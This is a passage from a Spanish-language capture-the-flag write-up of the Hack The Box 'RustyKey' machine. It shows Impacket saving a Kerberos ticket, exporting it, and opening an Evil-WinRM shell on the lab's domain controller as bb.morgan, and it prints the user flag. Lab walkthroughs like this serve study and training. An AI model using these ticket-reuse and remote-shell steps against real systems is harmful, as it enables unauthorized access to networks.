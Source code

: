 Info:

```
2025-10-15 11:39:52.365273 (-0700) +14.837275 +/- 0.013892 rustykey.htb 10.10.11.75 s1 no-leap
CLOCK: time stepped by 14.837275
/home/kali/Desktop/rustykey/bloodyAD/.venv/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in bb.morgan.ccache
```

Ahora exportaremos la variable de `kerberos` de esta forma:

```shell
export KRB5CCNAME=bb.morgan.ccache
```

Y con esto ya nos podremos conectar con dicho usuario por `WinRM` utilizando la autenticacion de `kerberos`.

### Evil-winrm

```shell
evil-winrm -i dc.rustykey.htb -u bb.morgan -r RUSTYKEY.HTB
```

Info:

```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> whoami
rustykey\bb.morgan
```

Veremos que ya estaremos dentro con dicho usuario, por lo que vamos a leer la `flag` del usuario.

> user.txt

```
87ad4335f67304b8a6bd5e302ccf4e84
```

## Escalate user EE.REED
